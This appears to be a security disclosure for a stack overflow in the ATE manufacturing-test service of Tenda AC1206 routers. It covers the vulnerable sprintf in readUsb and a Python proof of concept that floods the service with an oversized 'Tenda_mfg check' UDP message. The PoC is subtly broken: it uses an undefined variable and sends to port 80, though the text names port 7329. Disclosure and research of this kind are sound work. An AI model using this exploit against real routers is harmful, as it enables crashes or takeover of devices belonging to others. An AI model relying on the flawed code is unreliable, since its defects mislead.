 # Description



Tenda AC1206 `ate_Tenda_mfg_check_usb3` and `ate_Tenda_mfg_check_usb` has stack overflow vulnerability. This vulnerability refer the CVE-2024-9793 (https://github.com/ixout/iotVuls/blob/main/Tenda/ate_command_injection/report.md) and I find another one

[firmware download](https://static.tenda.com.cn/tdcweb/download/uploadfile/AC1206/US_AC1206V1.0RTL_V15.03.06.23_multi_TD01.zip)

# Affected version

AC series (AC1206, AC7, AC23 have been submitted separately)

11AC Routers-Tenda US (tendacn.com)

G series

Wired Enterprise Router-Tenda US (tendacn.com)

W series

In-wall AP-Tenda US (tendacn.com)

I series

Ceiling AP-Tenda US (tendacn.com)

O series

Outdoor CPE-Tenda US (tendacn.com)

A series

Range Extenders-Tenda US (tendacn.com)

VD series

xDSL Modem Routers-Tenda US (tendacn.com)


# details



When accessing `url:/goform/ate`, `TendaAte` will be called

![](w01.png)



The `TendaAte` function creates a thread and calls `ate_main_handle`, but, the recv_buf stack var size is ***4096***,  and recv from socket most ***0x1000***

![](000.png)

![](001.png)

In `ate_main_handle`, port number `7329` is opened, `udp` messages are received and processed, and the transmission message format is `command args`

The message is further processed by `ate_cmd_process`

![](01.png)

When `command` is `Tenda_mfg`and `arg` is `check` or `check USB3.0`, the `ate_Tenda_mfg_check_usb ` or `ate_Tenda_mfg_check_usb3` function is called, the both functions are similar, like:

![](02.png)

![](03.png)

![](04.png)



in `readUsb` function,  the variale `mntFileName` size is ***512*** char, but , there use `sprintf` function to format the two variables into `mntFileName`, there is no ckeck , And will cause stack overflow. 

![](05.png)



![](06.png)

there is no protection mechanism, causing ***RCE*** is OK, furtherly

![](08.png)


find that, the child thread `300` crash
![](07.png)


poc:

```python
import socket
import time
import os

os.system('curl http://172.30.214.100/goform/ate')

time.sleep(3)

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

server_address = ('172.30.214.100', 80)
command = b's' * 999
message = b'Tenda_mfg check'+ chars

try:
    print(f'Sending: {message}')
    sock.sendto(message, server_address)

    data, server = sock.recvfrom(4096)
    print(f'Received: {data}')

finally:

    sock.close()
```



